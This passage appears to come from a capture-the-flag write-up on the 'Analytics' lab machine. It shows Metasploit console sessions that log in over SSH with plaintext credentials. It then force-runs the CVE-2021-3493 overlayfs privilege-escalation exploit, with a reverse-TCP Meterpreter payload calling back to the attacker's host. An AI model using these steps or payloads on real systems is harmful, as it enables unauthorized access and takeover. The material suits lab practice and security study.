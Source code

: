    USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts
View the full module info with the info, or info -d command.
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME metalytics
USERNAME => metalytics
msf6 auxiliary(scanner/ssh/ssh_login) > set PASSWORD An4lytics_ds20223#
PASSWORD => An4lytics_ds20223#
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOST 10.10.11.233
RHOST => 10.10.11.233
msf6 auxiliary(scanner/ssh/ssh_login) > exploit
[*] 10.10.11.233:22 - Starting bruteforce
[+] 10.10.11.233:22 - Success: 'metalytics:An4lytics_ds20223#' 'uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics) Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (10.10.14.16:44447 -> 10.10.11.233:22) at 2023-10-14 07:00:05 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -l
Active sessions
===============
  Id  Name  Type         Information  Connection
  --  ----  ----         -----------  ----------
  1         shell linux  SSH kali @   10.10.14.16:44447 -> 10.10.11.233:22 (10.10.11.233)
{% endvimhl %}

{% vimhl bash %}
msf6 auxiliary(scanner/ssh/ssh_login) > use linux/local/cve_2021_3493_overlayfs
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > set LHOST 10.10.14.16
LHOST => 10.10.14.16
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > exploit
[*] Started reverse TCP handler on 192.168.142.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. The target version 6.2.0 is outside the vulnerable version range 3.13-5.14 "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > set ForceExploit true
ForceExploit => true
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > exploit
[*] Started reverse TCP handler on 10.10.14.16:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. The target version 6.2.0 is outside the vulnerable version range 3.13-5.14 ForceExploit is enabled, proceeding with exploitation.
[*] Writing '/tmp/.xM6J2mCaQB/.ML3YJAz' (17840 bytes) ...
[*] Writing '/tmp/.xM6J2mCaQB/.j63G9wDImt' (250 bytes) ...
[*] Launching exploit...
[*] Sending stage (3045380 bytes) to 10.10.11.233
[+] Deleted /tmp/.xM6J2mCaQB/.ML3YJAz
[+] Deleted /tmp/.xM6J2mCaQB
[*] Meterpreter session 2 opened (10.10.14.16:4444 -> 10.10.11.233:33034) at 2023-10-14 07:16:53 -0400
